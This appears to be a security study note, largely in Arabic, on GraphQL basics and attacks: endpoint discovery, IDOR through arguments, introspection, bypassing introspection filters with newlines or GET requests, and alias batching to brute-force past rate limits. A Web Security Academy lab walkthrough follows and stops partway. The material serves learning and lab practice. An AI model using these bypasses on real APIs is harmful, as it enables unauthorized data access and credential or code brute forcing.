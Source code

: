 # GraphQL 

<details>
  <summary>what is GraphQL?</summary>


- <details>
      <summary>what is GraphQL & How it work?</summary>

  ## 🧠 ما هو GraphQL؟
  
  **GraphQL** هو لغة استعلام API (بديلة عن REST) تسمح للعملاء بطلب البيانات التي يحتاجونها فقط، مما:
  - يقلل من حجم الاستجابات.
  - يمنع تعدد الطلبات للحصول على بيانات من أكثر من مصدر.
  
  ---
  
  ## ⚙️ كيف يعمل GraphQL؟
  
  - يعتمد على **Schema** يحدد أنواع البيانات والعلاقات بينها.
  - يستخدم **نقطة نهاية واحدة فقط** (عادة POST).
  - جميع العمليات (queries/mutations/subscriptions) تُرسل إلى نفس الـ endpoint.
  
  ---
  
  ## 🔧 أنواع العمليات في GraphQL:
  
  | النوع         | الوظيفة                                       |
  |---------------|-----------------------------------------------|
  | **Query**     | لجلب البيانات                                  |
  | **Mutation**  | لإضافة أو تعديل أو حذف البيانات                |
  | **Subscription** | لإنشاء اتصال دائم لتحديث البيانات تلقائيًا  |
  
  ---
  
  ## 🟢 مميزات GraphQL:
  
  - عميل التطبيق يحدد **ما هي البيانات المطلوبة بالضبط**.
  - لا حاجة لمعرفة مكان البيانات أو كيفية تجميعها.
  - متوافق مع مختلف لغات البرمجة وقواعد البيانات.
  - الاستجابة تأتي بشكل **JSON منظم حسب الطلب**.
  
  ---
  
  ## 🔁 الفرق عن REST:
  
  | REST                      | GraphQL                                   |
  |---------------------------|--------------------------------------------|
  | عدة endpoints             | endpoint واحد فقط                         |
  | HTTP methods (GET, POST…) | POST فقط غالبًا                           |
  | استجابة كاملة              | استجابة مخصصة حسب الطلب فقط              |
  
  


  </details>









- <details>
      <summary>What is a GraphQL schema?</summary>
  
  
  
  ## 📘 ما هو GraphQL Schema؟
  
  **GraphQL Schema** هو العقد (Contract) بين الـ **Frontend** والـ **Backend** يوضح:
  - ما هي البيانات المتاحة.
  - ما هي أنواعها.
  - كيف يمكن استدعاؤها.
  
  ✅ يُكتب باستخدام **لغة تعريف بسيطة ومقروءة (SDL)**.
  
  ---
  
  ## 🧱 ما الذي يحتويه الـ Schema؟
  
  - **أنواع البيانات (Types)**: مثل `Product`, `User`, `Order`...
  - **الحقول (Fields)**: تمثل خصائص الكائنات (مثل name، id...).
  - **الأنواع الأساسية**: مثل `String`, `Int`, `Boolean`, `ID`
  - يمكن أن تكون الحقول:
    - **Object Type** (نوع مركب)
    - **Scalar Type** (نوع بسيط)
    - **Enum / Union / Interface / Custom Types**
  
  🔒 `!` يعني أن الحقل **إجباري (Non-nullable)**
  
  ---
  
  ## ✏️ مثال على تعريف Schema بسيط:
  
  ```graphql
  type Product {
    id: ID!
    name: String!
    description: String!
    price: Int
  }
  ```
  
  #### 📌 هذا يعرف نوع اسمه Product يحتوي على:
  
  - ``id``: معرف فريد (إجباري)
  
  - ``name``: اسم المنتج (إجباري)
  
  - ``description``: وصف (إجباري)
  
  - ``price``: السعر (اختياري)
  
  
  ## 🔍 مكونات إضافية في الـ Schema:
  
  يجب أن يحتوي على Query واحدة على الأقل (لجلب البيانات)
  
  عادةً يحتوي أيضًا على Mutations (لإضافة/تعديل/حذف بيانات)
  
  
  ## 💡 ملخص سريع:
  
  | العنصر           | الوصف                                   |
  | ---------------- | --------------------------------------- |
  | Schema           | يحدد شكل البيانات وكيف يتم الوصول إليها |
  | Types            | الكائنات التي يمكن استرجاعها أو تعديلها |
  | Fields           | خصائص كل كائن (الاسم، السعر، إلخ)       |
  | Non-nullable (!) | حقل إجباري لا يمكن أن يكون فارغًا       |
  
  



  </details>








- <details>
     <summary>What are GraphQL queries?</summary>
  
  
  ## 🔍 ما هي GraphQL Queries؟
  
  **GraphQL Queries** تُستخدم لاسترجاع البيانات من قاعدة البيانات أو مصدر البيانات.
  
  ✅ تشبه طلبات **GET** في REST APIs، لكنها:
  - أكثر مرونة
  - تُعيد فقط البيانات التي تطلبها
  
  ---
  
  ## 🧱 مكونات الاستعلام (Query):
  
  | العنصر                 | الوصف                                               |
  |-------------------------|------------------------------------------------------|
  | **نوع العملية (query)** | لتوضيح أن الطلب هو استعلام (اختياري لكن مفضل)       |
  | **اسم الاستعلام**       | لتسهيل التتبع والتصحيح (اختياري لكنه مفضل)          |
  | **الهيكلية المطلوبة**   | تحدد الحقول التي تريد استرجاعها                     |
  | **المعاملات (arguments)** | لتحديد عناصر معينة بناءً على شرط (مثل ID)            |
  
  ---
  
  ## ✏️ مثال على Query:
  
  ```graphql
  query myGetProductQuery {
    getProduct(id: 123) {
      name
      description
    }
  }
  ```
  
  
  ### 📌 هذا الاستعلام يطلب من الخادم:
  
  المنتج الذي معرفه ``123``
  
  ويطلب فقط الاسم والوصف
  
   > 💡 ملاحظة: حتى لو كان نوع Product يحتوي على حقول أكثر، فأنت تتحكم في ما يتم استرجاعه فقط.
  
  
  
  
  ## 📚 ملخص سريع:
  
  
  
  | المفهوم      | القيمة                                          |
  | ------------ | ----------------------------------------------- |
  | الاستعلام    | طلب بيانات من الخادم                            |
  | يشبه في REST | طلب `GET`                                       |
  | المرونة      | تطلب الحقول التي تحتاجها فقط                    |
  | المعاملات    | تُستخدم لتحديد بيانات معينة مثل `id`, `name`... |
  
  


  </details>







- <details>
     <summary>What are GraphQL mutations?</summary>
  
  
  ## 🔧 ما هي GraphQL Mutations؟
  
  **Mutations** تُستخدم لتعديل البيانات، وتشمل:
  - الإضافة (Create)
  - التعديل (Update)
  - الحذف (Delete)
  
  🟩 تقابل في REST:
  - `POST` / `PUT` / `DELETE`
  
  ---
  
  ## 🧱 مكونات الـ Mutation:
  
  | العنصر                   | الوصف                                                         |
  |---------------------------|----------------------------------------------------------------|
  | **نوع العملية (mutation)**| يُحدد أن العملية هي تعديل بيانات                              |
  | **اسم العملية**           | (اختياري لكنه مفيد) لتسهيل التتبع                             |
  | **المدخلات (Inputs)**     | يجب تمرير بيانات (قيم) لإجراء التعديل                         |
  | **الاستجابة**             | تحدد الحقول التي تريد إرجاعها بعد التعديل                     |
  
  ---
  
  ## ✏️ مثال على Mutation:
  
  ```graphql
  mutation {
    createProduct(name: "Flamin' Cocktail Glasses", listed: "yes") {
      id
      name
      listed
    }
  }
  ```
  
  
  ### 📌 هذا يقوم بـ:
  
  - إنشاء منتج جديد
  
  - يطلب من الخادم إرجاع id, name, و listed في الاستجابة
  
  
  
  
  ---
  
  ## 📥 مثال على الاستجابة:
  
  ```json
  {
    "data": {
      "createProduct": {
        "id": 123,
        "name": "Flamin' Cocktail Glasses",
        "listed": "yes"
      }
    }
  }
  ```
  
  
  
  ## 📚 ملخص سريع:
  
  | المفهوم      | القيمة                                       |
  | ------------ | -------------------------------------------- |
  | الغرض        | تعديل البيانات (إضافة، تعديل، حذف)           |
  | يشبه في REST | POST / PUT / DELETE                          |
  | يجب أن يحتوي | مدخلات (inputs)                              |
  | الاستجابة    | تحدد الحقول المراد إرجاعها بعد تنفيذ العملية |
  
  
  
  
  
  

     
  </details>













- <details>
     <summary>Components of queries and mutations</summary>

  
  
  # 📌 Components of GraphQL Queries and Mutations
  
  GraphQL يتكوّن من عناصر أساسية تُستخدم لجلب البيانات (queries) أو تعديلها (mutations).
  
  ---
  
  ## 🔸 Fields (الحقول)
  
  - كل نوع (Type) يحتوي على **Fields** يمكن استدعاؤها.
  - يمكنك تحديد فقط الحقول المطلوبة في الطلب.
  - الاستجابة تعكس ما طلبته بالضبط.
  
  ### ✅ مثال:
  
  ```graphql
  query myGetEmployeeQuery {
    getEmployees {
      id
      name {
        firstname
        lastname
      }
    }
  }
  ```

  ## Response

  ```json
      #Response
  
      {
          "data": {
              "getEmployees": [
                  {
                      "id": 1,
                      "name" {
                          "firstname": "Carlos",
                          "lastname": "Montoya"
                      }
                  },
                  {
                      "id": 2,
                      "name" {
                          "firstname": "Peter",
                          "lastname": "Wiener"
                      }
                  }
              ]
          }
      }
  ```

  ---
  
  ## 🔸 Arguments (المعاملات)
  
  - تُستخدم لتمرير قيم إلى الاستعلام.
  - تُحدَّد في الـ Schema.
  - تُساعد على جلب بيانات محددة.
  
  ### ✅ مثال:
  
  ```graphql
  query myGetEmployeeQuery {
    getEmployees(id: 1) {
      name {
        firstname
        lastname
      }
    }
  }
  ```

  ## response
  
  ```json
   #Response to query
  
      {
          "data": {
              "getEmployees": [
              {
                  "name" {
                      "firstname": Carlos,
                      "lastname": Montoya
                      }
                  }
              ]
          }
      }
  ```






  
  📌 **تنبيه:** يمكن أن تكون عرضة لهجمات مثل **IDOR** إذا لم يتم تأمين الوصول جيدًا.
  
  ---
  
  ## 🔸 Variables (المتغيرات)
  
  - تُستخدم لتمرير قيم ديناميكية بدلاً من وضعها مباشرة في الاستعلام.
  - تفصل بين **هيكل الاستعلام** و**قيم البيانات**.
  
  ### ✅ مثال:
  
  ```graphql
 
    #Example query with variable

    query getEmployeeWithVariable($id: ID!) {
        getEmployees(id:$id) {
            name {
                firstname
                lastname
            }
         }
    }

    Variables:
    {
        "id": 1
    }
  ```
  
 
  
  ---
  
  ## 🔸 Aliases (الأسماء البديلة)
  
  - تسمح بطلب نفس النوع أكثر من مرة في نفس الاستعلام.
  - تتجاوز القيود بأن يكون لكل خاصية اسم فريد.
  
  ### ❌ استعلام غير صحيح:
  
  ```graphql
 
    #Invalid query

    query getProductDetails {
        getProduct(id: 1) {
            id
            name
        }
        getProduct(id: 2) {
            id
            name
        }
    }
  ```
  
  ### ✅ استعلام صحيح باستخدام Aliases:
  
  ```graphql
  query getProductDetails {
    product1: getProduct(id: "1") {
      id
      name
    }
    product2: getProduct(id: "2") {
      id
      name
    }
  }
  ```

  ## response

  ```json

    #Response to query

    {
        "data": {
            "product1": {
                "id": 1,
                "name": "Juice Extractor"
             },
            "product2": {
                "id": 2,
                "name": "Fruit Overlays"
            }
        }
    }
  ```
  
  ---
  
  ## 🔸 Fragments (الأجزاء القابلة لإعادة الاستخدام)
  
  - تُستخدم لتعريف مجموعة من الحقول مرة واحدة.
  - تُساعد في تقليل التكرار وإعادة استخدام نفس البنية في عدة أماكن.
  
  ### ✅ مثال:
  
  ```graphql
  fragment productInfo on Product {
    id
    name
    listed
  }
  
 
  ```

  ## query calling fragment
  
  ```graphql
   #Query calling the fragment
  
      query {
          getProduct(id: 1) {
              ...productInfo
              stock
          }
      }
  ```
  
  ## response 
  
  ```json
     #Response including fragment fields
  
      {
          "data": {
              "getProduct": {
                  "id": 1,
                  "name": "Juice Extractor",
                  "listed": "no",
                  "stock": 5
              }
          }
      }
  ```


 
  ---
  
  ## 📚 ملخص سريع:
  
  | المكون       | الوظيفة الرئيسية                                                              |
  |--------------|--------------------------------------------------------------------------------|
  | Fields        | تحديد ما يجب استرجاعه من بيانات                                                |
  | Arguments     | تمرير قيم لتحديد أو تخصيص البيانات المطلوبة                                    |
  | Variables     | فصل القيم عن الاستعلام لسهولة التكرار والتعديل                                 |
  | Aliases       | إرسال نفس الطلب لنوع معين أكثر من مرة باستخدام أسماء بديلة                    |
  | Fragments     | تعريف أجزاء قابلة لإعادة الاستخدام في استعلامات أو Mutations متعددة           |
  
  





  </details>




- <details>
     <summary>Subscriptions & Introspection</summary>


  # 🔄 GraphQL Subscriptions & Introspection
  
  ## 🔸 Subscriptions
  
  **Subscriptions** هي نوع خاص من الاستعلامات (queries)، لكن الفرق الرئيسي هو أنها:
  - تُنشئ **اتصال دائم** بين العميل (Client) والخادم (Server)
  - تُستخدم لتلقي **تحديثات لحظية (Real-time)** من السيرفر دون الحاجة للاستعلام بشكل مستمر
  
  ### ✅ الفائدة الأساسية:
  - مناسبة للتحديثات السريعة والصغيرة مثل:
    - تطبيقات الدردشة (Chat apps)
    - تحرير المحتوى التعاوني (مثل Google Docs)
    - الإشعارات المباشرة
  
  ### ⚙️ طريقة العمل:
  - غالبًا يتم تنفيذها باستخدام **WebSockets**
  - تُحدد شكل البيانات المطلوبة مثل الاستعلامات العادية
  
  ---
  
  ## 🔍 Introspection
  
  **Introspection** هي ميزة مدمجة في GraphQL تسمح لك بـ:
  - الاستعلام عن معلومات حول **الـ Schema** نفسها
  - معرفة أنواع البيانات، الحقول، الاستعلامات المتاحة، الـ mutations، وغيرها
  
  ### ✅ تُستخدم في:
  - أدوات مثل **GraphQL Playground** أو **GraphiQL**
  - توليد التوثيق (Documentation)
  
  ### ⚠️ مخاطر أمنية:
  - يمكن أن تكشف **معلومات حساسة** عن الـ API
  - يمكن أن تساعد المخترق في معرفة كيفية التفاعل مع الـ API
  - 🔒 **يُنصح بإيقافها في بيئات الإنتاج (Production)**
  
  ---
  
  ## 📚 ملخص سريع:
  
  | العنصر         | الوصف                                                                 |
  |----------------|------------------------------------------------------------------------|
  | Subscriptions  | اتصال دائم من السيرفر للعميل لتحديث البيانات لحظيًا                     |
  | Introspection  | استعلام عن هيكل الـ GraphQL نفسه (Schema)                              |
  | تستخدم في      | الدردشة، التحديثات اللحظية، توثيق GraphQL                               |
  | المخاطر        | Introspection قد تكشف تفاصيل داخلية حساسة - يجب تعطيلها في الإنتاج     |
  """
  

  </details>





  
</details>





<details>
  <summary>Finding GraphQL endpoints</summary>



# 🔍 Discovering & Testing GraphQL Endpoints

قبل اختبار أي GraphQL API، لازم تلاقي أولًا **الـ endpoint** الخاص بيها. كل طلبات GraphQL تروح لنفس الـ endpoint، فمعرفته مهمة جدًا.

---

## 🧪 Universal Query

### ما هو؟
استعلام بسيط لاختبار إذا كان عنوان URL يحتوي على GraphQL endpoint.

### ✅ مثال:
```graphql
query { __typename }
```

### 📥 الاستجابة المتوقعة:
```json
{
  "data": {
    "__typename": "query"
  }
}
```

🔎 هذا يساعدك تتأكد إنك بتتعامل مع GraphQL.

---

## 📍 Common GraphQL Endpoints

جرب ترسل universal query لهذه المسارات:

- `/graphql`
- `/api`
- `/api/graphql`
- `/graphql/api`
- `/graphql/graphql`
- (أحيانًا) أضف `/v1` في النهاية مثل: `/api/graphql/v1`

---

## 📬 طرق إرسال الطلبات (Request Methods)

| الطريقة       | الحالة                                      |
|---------------|----------------------------------------------|
| `POST` + `application/json` | ✅ الأفضل والأكثر أمانًا                  |
| `GET` أو `POST` + `x-www-form-urlencoded` | 🚫 ممكن تكون متاحة في بعض التطبيقات |

🔒 من الأفضل أن تقبل فقط POST + JSON لتفادي **CSRF**.

---

## 🧭 كيفية التأكد من الـ Endpoint

- جرب كل المسارات المعروفة باستخدام universal query.
- لو رجع استجابة بـ "query not present" أو شبيه، ده غالبًا GraphQL.
- غير طرق الطلب وشوف الاستجابة.

---

## 🧰 أدوات مساعدة

- **Burp Scanner**: بيقدر يكتشف GraphQL endpoints تلقائيًا.
  - يظهر إشعار "GraphQL endpoint found" لو تم اكتشافه.

- **Burp Proxy**:
  - استخدم المتصفح المدمج في Burp.
  - راقب HTTP History وشوف الطلبات اللي بيتم إرسالها.
  - كده تقدر تشوف استعلامات GraphQL الحقيقية في التطبيق.

---

## 📚 ملخص سريع:

| العنصر               | التوضيح                                                        |
|------------------------|----------------------------------------------------------------|
| Universal Query        | استعلام بسيط للتأكد من وجود GraphQL                          |
| Common Endpoints       | مسارات متكررة غالبًا تستخدمها الخدمات                        |
| طرق HTTP               | جرب POST + JSON أولًا، ثم طرق أخرى لو فشلت                    |
| أدوات الكشف           | Burp Suite مفيد جدًا في تحليل واستكشاف واجهات GraphQL         |


  
</details>










<details>
  <summary>Exploiting unsanitized arguments</summary>


  
  # ⚠️ Exploiting Unsanitized Arguments in GraphQL
  
  في مرحلة اختبار الأمان، من الجيد البدء باختبار **المعاملات (arguments)** داخل الاستعلامات. بعض التطبيقات تكون معرضة لثغرات **الوصول غير المصرح به** أو ما يُعرف بـ **IDOR**.
  
  ---
  
  ## ❗ ما هي ثغرة IDOR في GraphQL؟
  
  - تحدث عندما يُسمح للمستخدم بطلب كائن باستخدام معرف (ID) دون التأكد من صلاحياته.
  - المستخدم قد يصل إلى بيانات لا يملك إذنًا لرؤيتها فقط عن طريق تغيير قيمة الـ ID.
  
  ---
  
  ## 🎯 مثال عملي:
  
  ### 🔹 استعلام يعرض المنتجات المتاحة فقط:
  
  ```graphql
  query {
    products {
      id
      name
      listed
    }
  }
  ```
  
  ### 🔹 استجابة توضح المنتجات المتاحة فقط:
  
  ```json
  {
    "data": {
      "products": [
        { "id": 1, "name": "Product 1", "listed": true },
        { "id": 2, "name": "Product 2", "listed": true },
        { "id": 4, "name": "Product 4", "listed": true }
      ]
    }
  }
  ```
  
  📌 الملاحظة:
  - المنتج ذو ID رقم 3 غير ظاهر. من المحتمل أنه **غير مُدرج** أو محجوب.
  
  ---
  
  ## 🕵️‍♂️ محاولة الوصول للمنتج الغير ظاهر:
  
  ```graphql
  query {
    product(id: 3) {
      id
      name
      listed
    }
  }
  ```
  
  ### 🧨 استجابة غير متوقعة:
  
  ```json
  {
    "data": {
      "product": {
        "id": 3,
        "name": "Product 3",
        "listed": false
      }
    }
  }
  ```
  
  ✅ يعني أنه لا يوجد تحقق من صلاحيات المستخدم، وقدرنا نوصل لمنتج **غير ظاهر للعامة**.
  
  ---
  
  ## 🚨 الملخص:
  
  | العنصر              | التوضيح                                                  |
  |---------------------|-----------------------------------------------------------|
  | نوع الهجوم         | Insecure Direct Object Reference (IDOR)                   |
  | السبب              | عدم وجود تحقق من صلاحيات المستخدم عند استخدام المعاملات   |
  | النتيجة المحتملة   | الوصول إلى بيانات حساسة أو غير معلنة                      |
  | الطريقة            | تغيير قيمة الـ ID أو معلمة في الاستعلام يدويًا            |
  
  ---
  
  ## 🔐 التوصية للمطورين:
  
  - تأكد دائمًا من صلاحيات المستخدم قبل جلب الكائنات الحساسة.
  - لا تعتمد فقط على أن الاستعلام لا يُرجع البيانات في بعض الحالات.
  - راجع التحكم بالوصول (Access Control) بدقة.
  
  
  
    
</details>






<details>
  <summary>Discovering schema information</summary>




# 🧠 Discovering Schema Information in GraphQL

الخطوة التالية بعد الوصول لنقطة النهاية (endpoint) في GraphQL هي **اكتشاف معلومات المخطط (schema)** لفهم كيفية التفاعل مع الـ API.

---

## 🔍 ما هي Introspection؟

- Introspection هي ميزة مدمجة في GraphQL تتيح لك الاستعلام عن معلومات حول المخطط (schema).
- تُستخدم لفهم أنواع البيانات المتاحة، والاستعلامات (queries)، والتحويلات (mutations)، والاشتراكات (subscriptions)، وحتى الأوصاف الخاصة بها.

---

## ✨ فائدة Introspection

| الفائدة                         | التوضيح |
|--------------------------------|---------|
| فهم البنية الكاملة للـ API     | تعرف ما هي الأنواع والاستعلامات والحقول المتوفرة |
| كشف معلومات حساسة محتملة      | مثل الأوصاف أو الأسماء الداخلية التي لم تُنشر للعامة |
| تستخدمها أدوات التوثيق IDEs   | مثل GraphQL Playground و Postman و Burp Scanner |

---

## 🚀 استخدام introspection

### ✅ استعلام بسيط للتأكد من تفعيل introspection:

```json
{
  "query": "{__schema{queryType{name}}}"
}
```

📌 إذا استرجعت أسماء الاستعلامات، فإن introspection مفعلة.

---

## 📜 استعلام Introspection كامل

إذا أردت استخراج كل تفاصيل المخطط:

```graphql

    #Full introspection query

    query IntrospectionQuery {
        __schema {
            queryType {
                name
            }
            mutationType {
                name
            }
            subscriptionType {
                name
            }
            types {
             ...FullType
            }
            directives {
                name
                description
                args {
                    ...InputValue
            }
            onOperation  #Often needs to be deleted to run query
            onFragment   #Often needs to be deleted to run query
            onField      #Often needs to be deleted to run query
            }
        }
    }

    fragment FullType on __Type {
        kind
        name
        description
        fields(includeDeprecated: true) {
            name
            description
            args {
                ...InputValue
            }
            type {
                ...TypeRef
            }
            isDeprecated
            deprecationReason
        }
        inputFields {
            ...InputValue
        }
        interfaces {
            ...TypeRef
        }
        enumValues(includeDeprecated: true) {
            name
            description
            isDeprecated
            deprecationReason
        }
        possibleTypes {
            ...TypeRef
        }
    }

    fragment InputValue on __InputValue {
        name
        description
        type {
            ...TypeRef
        }
        defaultValue
    }

    fragment TypeRef on __Type {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                }
            }
        }
    }
```

🔧 ملاحظة: احذف `onOperation`, `onFragment`, `onField` إن ظهرت لك أخطاء.

---

## 📊 أدوات لتسهيل الفهم

- **GraphQL Visualizer**: يعرض علاقات المخطط بطريقة رسومية.
- **Burp Suite**: يمكنه توليد استعلام introspection واكتشاف التوجيهات والمخطط.
- **Clairvoyance**: أداة تقوم بجمع معلومات المخطط من **الاقتراحات** حتى لو كان introspection معطل.

---

## 💬 ماذا عن الاقتراحات؟

- تستخدم بعض الخوادم مثل Apollo GraphQL ميزة **الاقتراحات الذكية**.
- عند وجود خطأ بسيط في اسم الحقل، يقترح الاسم الصحيح.
- يمكن استغلال هذه الميزة لاستخراج المخطط جزئياً.

🔍 مثال:
> There is no entry for 'productInfo'. Did you mean 'productInformation'?

🛡️ لا يمكن تعطيل الاقتراحات مباشرةً في Apollo، ولكن هناك بعض الحيل في GitHub لتعطيلها.

---

## 📌 ملاحظات أمنية

| الجانب الأمني       | التوصية |
|---------------------|---------|
| introspection       | يجب تعطيله في بيئة الإنتاج |
| الاقتراحات          | تجنب تمكينها أو قم بفحص الردود بدقة |
| Burp Scanner        | يمكنه اختبار introspection والاقتراحات تلقائيًا |





  
</details>







<details>
  <summary>Bypassing GraphQL introspection defenses</summary>


# 🔍 Bypassing GraphQL Introspection Defenses

When developers try to secure GraphQL APIs by disabling **introspection**, they often rely on naive regex filters that block any query containing `__schema`. However, these filters can be bypassed in clever ways.




---

## 🔐 What Developers Do (Wrongly)

To prevent this, developers often filter out requests containing `__schema` or `__introspection`, using regular expressions.

Example:
```regex
/__schema{/
```

This blocks simple introspection queries... **but only the exact format.**

---

## 💥 Bypass Techniques

### 1. Inject Special Characters

GraphQL **ignores whitespaces, new lines, and commas**.

But naive regex filters don’t. So, by inserting harmless characters, you bypass the filter.

#### Example: Using a Newline Character

```json
{
  "query": "query{__schema
{queryType{name}}}"
}
```

#### Why this works:

- The developer's regex blocks `__schema{`
- But `__schema
{` doesn’t match their pattern
- Yet GraphQL still parses it correctly ✅

---

### 2. Try Alternative Request Methods

Developers may only disable introspection on POST requests.

Try:

#### ▶ GET Request with URL-Encoded Introspection Query

```http
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

Decoded:
```graphql
query {
  __schema
  {
    queryType {
      name
    }
  }
}
```

#### ▶ POST Request with Form URL-Encoded Body

```http
POST /graphql
Content-Type: application/x-www-form-urlencoded

query=query{__schema{queryType{name}}}
```

---

## 🧠 Extra Tips

- Save results to your Burp Suite **Site Map** for later analysis
- Combine this with tools like **GraphQL Voyager**, **InQL**, or **GraphQLmap** to visualize the schema
- Once schema is found, try:
  - Sensitive queries (email, password, tokens)
  - Mutations that may allow actions like reset, delete, or admin escalation

---

## 🛠 Want to Automate This?

You can easily script these bypass attempts using **Python + requests** to iterate over multiple bypass formats and content-types.

Let me know if you want the script.

---

## ✅ Goal

Get access to the full GraphQL schema **even if introspection is "disabled".**
This enables a full map of the API surface for further exploitation.

---

Stay sneaky 😎

  
</details>






<details>
  <summary>Bypassing rate limiting using aliases</summary>



# 🚀 Bypassing Rate Limiting using GraphQL Aliases

## 📌 المشكلة الأساسية: Rate Limiting
- الـ **Rate Limiting** هو نظام بيحط قيود على عدد الـ **requests** اللي تقدر تبعتها للـ API خلال فترة زمنية معينة.  
  **مثال:**
  - مسموح لك تبعت **5 requests في الدقيقة**.
  - لو بعت أكتر، السيرفر هيبدأ يرد عليك برسالة زي:  
    ```
    429 Too Many Requests
    ```
- الهدف منه إنه يمنع هجمات **brute force** أو **DoS attacks**.

---

## 📌 GraphQL وموضوع الـ Aliases
- في GraphQL، العادي إنك **ماينفعش تكرر نفس الـ field مرتين** في نفس الـ query.  
  **مثال (❌ غلط):**
  ```graphql
   query {
       isValidDiscount(code: 123)
       isValidDiscount(code: 456)
   }
  ```
  هيطلع لك Error لأنك كررت `isValidDiscount`.

---

## 📌 الحل → Aliases
- **Aliases** في GraphQL بتسمح لك إنك **تدي اسم مختلف لكل field**، حتى لو نفس الـ function أو الـ resolver.  
  **مثال (✅ صح):**
  ```graphql
  query {
      discount1: isValidDiscount(code: 123) {
          valid
      }
      discount2: isValidDiscount(code: 456) {
          valid
      }
      discount3: isValidDiscount(code: 789) {
          valid
      }
  }
  ```

هنا:
- `discount1` → هي alias للـ `isValidDiscount` الأول.
- `discount2` → alias تاني.
- وهكذا...

---

## 📌 إزاي ده بيكسر Rate Limiting؟
- بعض أنظمة الـ **Rate Limiting** بتحسب **عدد الـ requests** بس، مش **عدد العمليات الداخلية في GraphQL**.
- **GraphQL Aliases** بتخليك تبعت **Request واحدة** فيها **عمليات كتير**.

### 📍 **مثال حقيقي:**
بدل ما تبعت 100 طلب بالشكل ده:
```graphql
query {
    isValidDiscount(code: 123)
}
```
تبعت طلب واحد بس كده:
```graphql
query {
    d1: isValidDiscount(code: 123) { valid }
    d2: isValidDiscount(code: 124) { valid }
    d3: isValidDiscount(code: 125) { valid }
    d4: isValidDiscount(code: 126) { valid }
    d5: isValidDiscount(code: 127) { valid }
    ...
    d100: isValidDiscount(code: 222) { valid }
}
```

🔹 **النتيجة:**
- السيرفر شايف إن ده **Request واحد** → وبالتالي مش هيوقفك بالـ rate limiter.  
- إنت فعليًا عملت **brute force** جوه الـ API من غير ما تتقيد بعدد الـ requests.

---

## 📌 سيناريو عملي (تخيل تحدي CTF):
لو عندك endpoint في GraphQL بيتأكد من كود خصم:
```graphql
query {
    isValidDiscount(code: "12345") {
        valid
    }
}
```
بدلاً من تبعت كود واحد في كل Request → تبعت 50 كود في Request واحدة:
```graphql
query {
    check1: isValidDiscount(code: "11111") { valid }
    check2: isValidDiscount(code: "22222") { valid }
    check3: isValidDiscount(code: "33333") { valid }
    check4: isValidDiscount(code: "44444") { valid }
    check5: isValidDiscount(code: "55555") { valid }
}
```

🔹 **كده لو فيه كود صحيح، هتعرفه بسرعة كبيرة من غير ما تتوقف بالـ rate limiting.**

---

## 📌 الخلاصة:
- **Aliases** في GraphQL وسيلة لتسمية نفس العملية بأسماء مختلفة.
- تقدر تستغلها علشان **تعمل brute force في طلب واحد بس**.
- ده بيكسر أنظمة rate limiting الضعيفة لأنها بتحسب عدد الـ requests مش العمليات الداخلية.





  
</details>































































































































----
----


# **``GraphQL Labs``**



<details>
  <summary>Lab: Accessing private GraphQL posts</summary>

> ### The blog page for this lab contains a hidden blog post that has a secret password. To solve the lab, find the hidden blog post and enter the password. 


---

1. active **``burp live passive Crawl``**

<img width="400" height="168" alt="image" src="https://github.com/user-attachments/assets/1aabdb2e-2be3-419d-8f5e-5cbbf23f341b" />

**``Found``**


```http
POST /graphql/v1 HTTP/2
Host: 0a840000031c9eaf83cdf5c7001700fe.web-security-academy.net
Cookie: session=6rY0h8IeXuTOu3Viib6k5KsJYOZNxku1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a840000031c9eaf83cdf5c7001700fe.web-security-academy.net/post?postId=2
Content-Type: application/json
Content-Length: 249
Origin: https://0a840000031c9eaf83cdf5c7001700fe.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers



{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            paragraphs\n        }\n    }","operationName":"getBlogPost","variables":{"id":2}}
```


find introspection

simple one to check

<img width="1524" height="476" alt="image" src="https://github.com/user-attachments/assets/403cf877-4073-4ec6-becb-c926c3b227a0" />


> Don't forget to convert form ``graphql`` to ``json`` 

[From_graphql_2_json](https://datafetcher.com/graphql-json-body-converter)

```json
{

  "query": " query IntrospectionQuery { __schema { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name } } } }"

}
```

<img width="1570" height="723" alt="image" src="https://github.com/user-attachments/assets/3104cd2c-b626-4eae-9ff3-f741a7135f57" />


> ### put output to visulizer

[graphql_visulaize3r](http://nathanrandal.com/graphql-visualizer/)


<img width="848" height="657" alt="image" src="https://github.com/user-attachments/assets/40ebcb57-fe05-4ba5-906c-31ec3f82fb39" />


Try to read content of ``postPassword`` of all posts

```graphql
query {
  getAllBlogPosts {
    id
    title
    postPassword
  }
}
```

but if you notice that there ar id form ``1`` to ``5`` exept **``3``** this might be it's ``isPrivate: Boolean!`` is true

<img width="1527" height="622" alt="image" src="https://github.com/user-attachments/assets/6546c0c4-2f1a-4cac-990c-05e145d21c22" />

so if i use the first query and try to see password 

```json
{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            paragraphs\n     postPassword\n   }\n    }","operationName":"getBlogPost","variables":{"id":3

}}
```

<img width="1544" height="651" alt="image" src="https://github.com/user-attachments/assets/e689a70d-8315-4412-9c87-b8d5aa85efd6" />


found the password

```

```

  
</details>









<details>
  <summary>Lab: Accidental exposure of private GraphQL fields</summary>


